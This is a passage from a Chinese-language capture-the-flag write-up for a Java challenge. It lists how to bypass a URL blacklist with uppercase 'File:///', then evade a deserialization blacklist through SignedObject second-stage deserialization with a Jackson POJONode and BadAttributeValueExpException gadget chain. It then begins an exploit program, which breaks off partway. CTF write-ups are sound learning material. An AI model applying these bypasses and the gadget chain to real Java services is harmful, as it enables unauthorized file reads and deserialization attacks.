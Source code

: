 [![](assets/1709112106-309464d3d9ca38c39e61a6da374b6392.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195835-8948b6ea-d567-1.png)

那么限制我们来罗列一下

1.  可以打 URL 的一个读取文件，但是有一个黑名单拦截，但是大写即可绕过
2.  反序列化存在黑名单，但是可以打 SignedObject 的二次反序列化来触发`URLHelper`​类
3.  如何拼接 SignedObject 链呢？查看依赖发现存在 Jackson 链，想到`BadAttributeValueExpException`​ 配合 `POJONode`​ 链

那么问题就解决了，编写下 EXP

```bash
package com.yancao.ctf;

import com.yancao.ctf.bean.URLHelper;
import com.yancao.ctf.bean.URLVisiter;
import com.fasterxml.jackson.databind.node.POJONode;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import javassist.*;

import javax.management.BadAttributeValueExpException;

public class exp
{
    public static void main(String[] args) throws Exception {
        URLHelper urlHelper = new URLHelper("File:///flag");
        urlHelper.visiter = new URLVisiter();

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
```